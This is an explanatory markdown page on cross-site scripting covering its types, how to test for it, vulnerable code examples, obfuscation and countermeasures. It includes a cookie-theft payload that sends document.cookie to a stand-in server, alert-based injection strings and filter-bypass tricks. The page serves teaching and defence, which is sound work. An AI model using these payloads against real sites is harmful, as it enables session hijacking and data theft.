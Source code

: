 # XSS 

## Lexic

* [JavaScript](items/javascript.md)
* [Cookies](items/cookies.md)
* [Web Client](items/web_client.md)
* [Web Server](items/web_server.md)
* [XMLHttpRequest](items/xhr.md)
* [WAF](items/waf.md)
* [Proxy](items/proxy.md)
* [SOP](items/sop.md)
* [HTML](items/html.md)
* [DOM](items/dom.md)

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS, control victim browser, ` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser` through [Javascript](items/javascript.md) language mostly.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.
 
 `Client -> Server -> Users of the site (possibily including attacker)`

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server.
 
 `Client -> Server -> Client`

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.
 
 `Client -> Client`

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses. Submit to check :
  * HTTP headers
  * URL parameters, query string
  * Request body, form data
  * Cookies, API storage 

From all the website submits listed, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable.

 
---
## Examples     
### Example 1 : cookie theft 
This code will send the cookie of the user who visit the website containing this payload. 

```
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
	}
    </script>
```

### Example 2 : XSS with weak js function 

```	
    myFunction(){
	myImg.src = document.getElementById('imgId').value; 
	document.body.appendChild(myImg); 
	}

```
If the user sends ```'); alert('xss'); document.getElement('``` the code will become ```myImg.src = document.getElementById(''); alert('xss'); document.getElementById('imgId').value;```

### Example 3 : Bad escapping
```
   myFunction(){
	userInputEscapped = userInput.replace('<script>', ' ');
	document.appendChild(userInputEscapped);
	}

```
This function appends to the document body the user input. It replaces the user input containing <script> by " ". 
For example, if a user inputs ```<script>alert("test");</script>``` the result will be ```alert("test");``` and then will not be executed.
This kind of escapping is very unuseful. If the attacker choose ```<SCRIPT>alert('test');</SCRIPT>``` the replace method is case sensitive, so the js script will be executed. 
``` 
myFunction(){
	userInputEscapped = userInput.replace('"', ' '); 
	document.body.appendChild(userInputEscapped); 
	}
  ```
In this example the quote char is replaced with ' '. An attacker could attack this implementation by using ```String.fromCharCode(35,120,115,115,34);``` to get ```alert("XSS")```.

### Obfuscation
`Obfuscation` is the deliberate act of creating source or machine code that is difficult for humans to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even as a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry.
#### Example:
Let's assume the following script:
```
alert("Hello, JavaScript" );
```
After an obfuscation with [JJencode](http://utf-8.jp/public/jjencode.html); it looks like:
```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:
(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+
($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")
[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_]
[$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+
(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+",\\"+$.$__+$.___+"\\"+$.__$+$.__$+$._$_+$.$_$_+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"
\\"+$.__$+$._$_+$._$$+$.$$__+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$.___+$.__+"
\\\"\\"+$.$__+$.___+")"+"\"")())();
```
## Counter Measures
* **Rule #1**: **NEVER** trust client. Always perform `input validation` at every single posted by the user to the server. This includes `escaping`, `filtering` and checking everything related to data submit.
* **Rule #2**: Always update `plugins`, `modules`, `core` and all plugged packaged being used in web systems. Indeed, this contributes in limiting XSS flaws risks. This requires mastering and knowing each item used in the system/web site.
* **Rule #3**: `Disable`/`remove` unuseful features/modules cause `more one's web site embeds packages, higher is the risk of XSS vulnerability presence` mostly in CMSs.
* **Rule #4**: Think of using a [WAF](items/waf.md) and think of `deofuscation` methods.
* **Rule #5**: Implement [SOP](items/sop.md) policy `properly`.
 
